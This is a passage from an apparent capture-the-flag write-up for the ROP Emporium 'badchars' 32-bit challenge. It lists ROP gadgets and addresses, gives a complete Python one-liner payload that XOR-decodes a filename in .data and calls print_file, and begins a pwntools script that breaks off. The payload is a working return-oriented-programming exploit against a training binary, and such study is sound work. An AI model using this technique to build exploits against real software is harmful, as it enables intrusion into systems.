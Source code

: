 |  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 3` |"\x1b\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 4` |"\x1c\xa0\x04\x08" |
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 5` |""\x1d\xa0\x04\x08"|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 6` |"\x1e\xa0\x04\x08" |
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `pop ebp; ret;` | "\xbb\x85\x04\x08"|
| `.data + 7` |"\x1f\xa0\x04\x08 "|
|  `xor byte ptr [ebp], bl; ret;` | "\x47\x85\x04\x08" |
| `print_file` |  "\xd0\x83\x04\x08"|
| `fake return address for print_file` | "\x55" * 4         |
| `.data`	| "\x18\xa0\x04\x08"	|

```bash
python -c 'print "\x55"*44 + "\xb8\x85\x04\x08" + "\x02\x02\x02\x02" + "\x64\x6E\x63\x65" + "\x18\xa0\x04\x08" + "\x18\xa0\x04\x08" + "\x4f\x85\x04\x08" + "\xb8\x85\x04\x08" +   "\x02\x02\x02\x02" + "\x2C\x76\x7A\x76" + "\x1c\xa0\x04\x08" + "\x18\xa0\x04\x08" + "\x4f\x85\x04\x08" + "\x47\x85\x04\x08" +
"\xbb\x85\x04\x08" + "\x19\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1a\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1b\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1c\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1d\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1e\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xbb\x85\x04\x08" + "\x1f\xa0\x04\x08" + "\x47\x85\x04\x08" + "\xd0\x83\x04\x08" + "\x55" * 4 + "\x18\xa0\x04\x08"' | ./badchars32
```

### pwntools

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF("badchars32")
io = process(elf.path)


data_address = p32(0x0804a018)
print_file_address = p32(0x080483d0)

str1_1 = p32(0x65636e64)
str1_2 = p32(0x767a762c)
str2 = p32(2)

```

[Split]: https://ropemporium.com/challenge/write4.html